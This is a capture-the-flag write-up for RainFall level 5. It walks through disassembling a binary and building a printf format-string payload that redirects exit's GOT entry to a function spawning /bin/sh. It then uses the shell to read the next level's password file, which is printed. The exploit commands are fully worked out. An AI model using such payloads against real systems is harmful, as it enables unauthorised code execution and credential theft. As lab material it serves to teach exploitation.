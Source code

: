 # Level 5

Another `printf` format string exploit, except this time we won't get a shell by setting a value to a variable, instead we have to call the function `o`...

```shell
r2 ./level5
[0x080483f0]> aaa
[...]
[0x080483f0]> afl
0x080483f0    1 33           entry0
[...]
0x080484a4    1 30           sym.o
[0x080483f0]> s sym.o
[0x080484a4]> pdf
┌ 30: sym.o ();
│           0x080484a4      55             push ebp
│           0x080484a5      89e5           mov ebp, esp
│           0x080484a7      83ec18         sub esp, 0x18
│           0x080484aa      c70424f08504.  mov dword [esp], str._bin_sh ; [0x80485f0:4]=0x6e69622f ; "/bin/sh" ; const char *string
│           0x080484b1      e8fafeffff     call sym.imp.system         ; int system(const char *string)
│           0x080484b6      c70424010000.  mov dword [esp], 1          ; int status
└           0x080484bd      e8cefeffff     call sym.imp._exit          ; void _exit(int status)
```

## Another day, Another %p

As usual let's check where our buffer starts in the stack
```shell
level5@RainFall:~$ ./level5 <<< `python -c 'print "0000" + "%p|"*20'`
00000x200|0xb7fd1ac0|0xb7ff37d0|0x30303030|0x257c7025|0x70257c70|0x7c70257c|0x257c7025|0x70257c70|0x7c70257c|0x257c7025|0x70257c70|0x7c70257c|0x257c7025|0x70257c70|0x7c70257c|0x257c7025|0x70257c70|0x7c70257c|0xa|
level5@RainFall:~$ ./level5 <<< `python -c 'print "0000" + "%p|"*4'`
00000x200|0xb7fd1ac0|0xb7ff37d0|0x30303030|
level5@RainFall:~$ ./level5 <<< `python -c 'print "0000%4$p"'`
00000x30303030
```
Ok perfect, now what?

## Pesky exit

```asm
0x080484e5      e8b6feffff     call sym.imp.fgets          ; char *fgets(char *s, int size, FILE *stream)
0x080484ea      8d85f8fdffff   lea eax, [format]
0x080484f0      890424         mov dword [esp], eax        ; const char *format
0x080484f3      e888feffff     call sym.imp.printf         ; int printf(const char *format)
0x080484f8      c70424010000.  mov dword [esp], 1          ; int status
0x080484ff      e8ccfeffff     call sym.imp.exit           ; void exit(int status)
```


What if we just replaced the address of `exit()` with the address of `o`? let's try!

## The GOT

The Global Offset Table holds the adresses of functions that are dynamically linked, luckily for us it is writeable!

First let's get the value of `exit` in the GOT, before the program can replace it
```shell
level5@RainFall:~$ gdb ./level5
[...]
Reading symbols from /home/user/level5/level5...(no debugging symbols found)...done.
(gdb) disas exit
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:     jmp    *0x8049838
   0x080483d6 <+6>:     push   $0x28
   0x080483db <+11>:    jmp    0x8048370
End of assembler dump.
(gdb) p o
$1 = {<text variable, no debug info>} 0x80484a4 <o>
```

We need to override the value of `0x8049838` with the address of `o`, `0x80484a4`
sadly, struct.pack() messes with stdin so we'll have to passes the address in little endian directly
```shell
level5@RainFall:~$ (python -c 'import struct; print "\x38\x98\x04\x08" + "%{}p".format(str(0x80484a4-4)) + "%4$n"'; cat -)  | ./level5
[...]

           0x200
whoami
level6
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
🚀

